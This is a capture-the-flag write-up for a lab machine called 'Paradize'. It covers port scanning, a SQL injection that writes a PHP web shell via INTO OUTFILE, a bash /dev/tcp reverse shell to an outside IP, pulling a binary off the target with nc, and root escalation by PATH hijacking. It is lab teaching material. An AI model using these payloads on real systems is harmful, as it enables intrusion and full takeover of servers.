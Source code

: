 ```yaml
---
title: 'Paradize Writeup'
date: '2024-11-30'
tags: ['SQLI', 'Linux', 'Hacking Club']
draft: false
summary: 'On the Paradize machine, we need to exploit an SQL injection to upload a webshell and explore a path hijacking vulnerability.'
images: ['/static/images/paradize-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/paradize-writeup-images/default.png)

---

## **Port Scanning**

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 2e:46:3f:4e:29:18:65:c6:83:44:02:99:72:92:cc:84 (ECDSA)
|_  256 60:fc:6f:94:db:f1:72:13:7b:9f:51:4f:88:5c:1e:93 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://paradize.hc
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only ports 22 (SSH) and 80 (HTTP) are open.

---

## **Enumeration**

`http://172.16.7.123`

![paradize](/static/images/paradize-writeup-images/image.png)

`sudo vim /etc/hosts`

![paradize 1](/static/images/paradize-writeup-images/image1.png)

Accessing the application

`http://paradize.hc`

![paradize 2](/static/images/paradize-writeup-images/image2.png)

Registering a new user

![paradize 3](/static/images/paradize-writeup-images/image3.png)

Apparently, the login/register fields are not vulnerable to SQL Injection (single quotes did not work).

After logging in, we have a 'Change Password' functionality.

![paradize 4](/static/images/paradize-writeup-images/image4.png)

By inserting a single quote, the application returns a database error, indicating a potential SQL Injection vulnerability.

![paradize 5](/static/images/paradize-writeup-images/image5.png)

![paradize 6](/static/images/paradize-writeup-images/image6.png)

I captured the request in Burp to facilitate exploitation.

The next step is to exploit the SQL Injection, starting by enumerating the number of columns in the database.

`' UNION SELECT 1 #`

![paradize 7](/static/images/paradize-writeup-images/image7.png)

There are 3 columns in this database since the application did not show an error.

`' UNION SELECT 1,2,3 #`

![paradize 8](/static/images/paradize-writeup-images/image8.png)

The next step is to use the SQL Injection to inject a web shell into a file using the MySQL `into outfile` function.

To identify a directory with write permissions, we can use the `ffuf` tool in recursion mode.

### Fuzzing

`ffuf -u http://paradize.hc/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -recursion`

![paradize 9](/static/images/paradize-writeup-images/image9.png)

`'union select 1,"<?php system($_GET['cmd']); ?>",3 into outfile "/var/www/html/public/images/uploads/shell.php"-- -`

![paradize 10](/static/images/paradize-writeup-images/image10.png)

![paradize 11](/static/images/paradize-writeup-images/image11.png)

---

## FootHold

`bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'`

NOTE: Remember to encode the payload.

![paradize 12](/static/images/paradize-writeup-images/image12.png)

`nc -lnvp 1337`

![paradize 13](/static/images/paradize-writeup-images/image13.png)

---

## Privillege Escalation

`find / -perm -u=s 2>/dev/null`

![paradize 14](/static/images/paradize-writeup-images/image14.png)

Running the binary to see what it does

![paradize 15](/static/images/paradize-writeup-images/image15.png)

Transferring it to our machine for further analysis

```jsx
#kali
nc -lnvp 8000 >enrollment
#target
nc 10.0.31.150 8000 < /usr/sbin/enrollment
```

![paradize 16](/static/images/paradize-writeup-images/image16.png)

Analyzing the binary in **Ghidra**, we can see it calls the system command to run the `figlet` program.

![paradize 17](/static/images/paradize-writeup-images/image17.png)

In Linux, files are executed in a specific order. Knowing this, we can create a malicious **figlet** file that will be executed first by the **enrollment** binary using the Path Hijacking technique.

```bash
echo '#!/bin/bash' > figlet
echo 'chmod u+s /bin/bash' >> figlet
chmod 777 figlet
export PATH=$(pwd):$PATH
/usr/sbin/enrollment

```

![paradize 18](/static/images/paradize-writeup-images/image18.png)

---

## Proof

![paradize 19](/static/images/paradize-writeup-images/image19.png)
